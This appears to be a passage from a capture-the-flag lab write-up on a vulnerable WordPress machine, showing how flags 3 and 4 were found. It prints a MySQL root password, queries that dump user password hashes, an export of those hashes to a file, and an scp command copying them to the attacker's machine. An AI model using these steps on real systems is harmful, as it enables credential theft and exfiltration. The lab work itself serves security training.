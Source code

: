       - once having found this password we found flag3 with the following commands;
        ```bash
        $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
        $ show databases;
        $ use wordpress;
        $ show tables;
        $ select * from wp_posts;
        ```
    ![flag3](./images/flag_3.png)
        
      - we also discovered flag 4 here

    ![flag4](./images/flag_4.png)

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Exploting the Database we also found unsalted passwrod hashes that we could use to gain access to steven
      - Commands;
        ```bash
        $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
        $ show databases;
        $ use wordpress;
        $ show tables;
        $ select * from wp_users;

    - we get this output;

    ![hashes](./images/password_hashes.png)

    - using the following command we were able to save the data from wp_users to a file to use later;
      ```bash
      $ select user_login,user_pass from wp_users
      $ into outfile ./wp_hashes.txt;
      ```
   - this then allows us to modify and move the wp_hashes file back to the kali machine;
    ```bash
    $ exit
    $ scp michael@192.168.1.110:/var/www/html/wp_hashes.txt .
    password = michael
    ```
  ![scptransfer](./images/wp_hashes_transfer.png)
